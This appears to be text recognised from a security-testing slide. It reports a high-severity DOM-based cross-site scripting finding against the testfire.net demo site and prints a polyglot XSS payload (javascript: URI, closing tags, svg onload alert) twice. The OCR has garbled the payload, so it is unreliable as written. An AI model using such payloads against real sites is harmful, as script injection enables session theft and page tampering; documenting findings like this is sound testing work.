

# High level threat
Title – cross site scripting DOM based
Description –
url -http://testfire.net#jaVascript:/-////////oNclick-alert(5397) 1//
//</style/</title/</textarEa/</script/->\x3csvg/<svg NoAd-alert(5397)/> High
Attack -#javascript://pppp/oNclick=alert(5397) //
//</stYle/</title/</textarEa/</script/->\x3esvg/<svg/oNoAd-alert(53971//xle